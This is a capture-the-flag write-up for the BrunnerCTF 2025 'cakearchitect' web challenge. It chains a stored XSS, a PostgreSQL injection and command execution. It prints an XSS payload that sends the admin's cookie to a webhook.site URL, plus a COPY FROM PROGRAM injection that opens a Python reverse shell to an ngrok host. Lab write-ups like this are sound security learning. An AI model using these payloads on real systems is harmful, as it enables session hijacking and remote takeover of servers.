 Judging from the session cookie pattern, it's a Flask application. There is an XSS in the ingredients field, and you can submit your recipe to the admin.

```
<img src=x onerror=fetch('https://webhook.site/d559bc0f-3038-48d0-8cda-6d7b229a19d4/?c='+btoa(document.cookie))>
```

![alt text](/CTF-writeups/2025/brunnerctf-2025/images/cakearchitect-cookie.png)

Login with the admin's cookie and you get an admin panel. There is an SQL injection here.
However, the query is expecting type jsonb. 

![alt text](/CTF-writeups/2025/brunnerctf-2025/images/cakearchitect-jsonb.png)


You can throw other errors to know it's postgres, then cast your column with `::jsonb`.
![alt text](/CTF-writeups/2025/brunnerctf-2025/images/cakearchitect-postgres.png)

I got unintended solution for this, but there is a default config for Postgres 9.3 < 11.2 that allows you to execute commands using `COPY FROM PROGRAM`. I couldn't create my own tables so I used the existing cakes table. (img 4)

![alt text](/CTF-writeups/2025/brunnerctf-2025/images/cakearchitect-postgres-rce.png)

Payload to get shell on the box:
```
{"cake_id":"'5555'; COPY cakes FROM PROGRAM 'python3 -c ''import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"0.tcp.ap.ngrok.io\",17769));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")''';-- -"}
```

Intended solution I believe is to enumerate enabled extensions and get RCE using `plpython3u`

This was in the challenge's init_db.sql
```
CREATE EXTENSION IF NOT EXISTS plpython3u;
```

Flag : `brunner{XSS_y0UR_w4y_T0_Pyth0N3_1N_P0sTgR35?!}`

Solved by: benkyou